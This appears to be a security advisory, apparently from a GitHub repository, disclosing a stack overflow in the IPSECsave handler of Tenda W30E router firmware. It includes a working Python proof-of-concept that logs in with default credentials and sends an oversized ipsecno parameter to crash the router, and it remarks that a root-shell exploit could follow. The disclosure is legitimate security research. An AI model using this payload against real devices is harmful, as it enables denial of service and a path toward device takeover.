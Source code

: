 # Tenda W30E V1.0.1.25(633) Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address ： https://www.tenda.com.cn/download/detail-2218.html


## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W30E/exeCommand/img/1.png)

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W30E/IPSECsave/img/2.png)

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/W30E/IPSECsave/img/3.png)

In /goform/IPSECsave, when opttype is 2, ipsecno will be spliced into s by sprintf. It is worth noting that there is no size check, which leads to a stack overflow vulnerability.


## Poc

```python
import requests

#cmd = b'page=' + b'a' * 0x3000

cmd = b'opttype=2&ipsecno=' + b'a' * 0x3000

url = b"http://192.168.10.103/login/Auth"
payload = b"http://192.168.10.103/goform/IPSECsave/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()
```

You can see that the router crashed, and finally you can write an exp to get a root shell

